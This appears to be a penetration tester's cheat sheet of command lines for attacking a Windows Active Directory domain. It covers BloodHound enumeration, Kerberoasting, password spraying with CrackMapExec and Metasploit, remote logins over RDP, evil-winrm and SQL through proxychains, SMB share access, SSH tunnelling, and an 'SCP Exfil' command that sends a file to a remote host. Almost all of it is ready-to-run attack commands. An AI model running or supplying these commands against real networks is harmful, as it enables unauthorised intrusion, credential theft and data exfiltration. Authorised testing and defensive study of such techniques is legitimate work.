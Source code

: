 Bloodhound From Kali
---------------------------------------------------------------
`sudo pip3 install bloodhound`  

`bloodhound-python -u adusername -d domain.corp -v -c dconly -ns x.x.x.x`  
`bloodhound-python -u adusername -d domain.corp -v -c all -ns x.x.x.x`

Kerberoast SPNS
---------------------------------------------------------------
`python3 GetUserSPNS.py -request domain.corp/adusername -dc-ip x.x.x.x`

CrackMapExec
---------------------------------------------------------------
Check for smb access  
`cme smb -u username -p Welcome1 --shares final.txt --continue-on-success`

Password spray against user list  
`cme smb -u usernamesonly.txt -p Welcome1 -d domain.corp  x.x.x.x(target) --continue-on-success`

Grab user list  
`python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all domain.corp/aduser -dc-ip x.x.x.x`

Metasploit Password Spray SMB
---------------------------------------------------------------
`use auxiliary/scanner/smb/smb_login` 

RDP (simple) 
---------------------------------------------------------------
`proxychains-ng xfreerdp /v:x.x.x.x /u:username /d:domain.corp /p:Welcome1`

RDP (Clipboard, mounted tsclient) 
---------------------------------------------------------------
`proxychains-ng xfreerdp +clipboard /v:x.x.x.x /u:username /d:domain.local /drive:tsclient,/path/to/mounted/folder/` 

Evil-winrm
---------------------------------------------------------------
`proxychains-ng evil-winrm -i x.x.x.x -u username -p 'Welcome1'`

SCP Exfil
---------------------------------------------------------------
`scp SuperSecretDummyExfil.xlsx username@x.x.x.x:/home/pentesting`

Database CommandLine Access SQSH
---------------------------------------------------------------
`proxychains-ng sqsh -S x.x.x.x -U sa -P Welcome1`

Access SMB Share
---------------------------------------------------------------
Check for null session  
`echo exit | smbclient -L \\\\$line`

Connect and explore through smbclient  
`smbclient //x.x.x.x/share`  

Mount open share locally  
`sudo mount //x.x.x.x/share /mnt/share`

Proxychains ssh
---------------------------------------------------------------
`ssh -L 7777:localhost:7777 username@hostname.com`  
`ssh -ND 7777 username@localhost`
